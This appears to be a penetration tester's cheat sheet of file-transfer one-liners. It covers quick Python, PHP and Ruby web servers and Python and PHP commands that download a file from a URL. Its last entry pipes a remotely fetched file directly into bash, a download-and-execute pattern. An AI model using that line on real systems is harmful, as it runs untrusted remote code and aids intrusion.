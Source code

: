
- python2.7

```console
zero@pio$ sudo python2.7 -m SimpleHTTPServer <port>
```

- php

```console
zero@pio$ sudo php -S 0.0.0.0:<port>
```

- ruby

```console
zero@pio$ sudo ruby -run -ehttpd . -p<port>
```

--- 

# Code 

## Python 

- python2 

```console
zero@pio$ python2.7 -c 'import urllib;urllib.urlretrieve ("<target url file>", "<output file>")'
```

- python3 

```console
zero@pio$ python3 -c 'import urllib.request;urllib.request.urlretrieve("<target url file>", "<output file>")'
```

## PHP 

- File\_get\_contents()

```console
zero@pio$ php -r '$file = file_get_contents("<target url file>"); file_put_contents("<output file>",$file);'
```

- Fopen() 

```console
zero@pio$ php -r 'const BUFFER = 1024; $fremote = 
fopen("<tartget url file>", "rb"); $flocal = fopen("<output file>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

- Bash pipe 

```console
zero@pio$ php -r '$lines = @file("<target url file>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
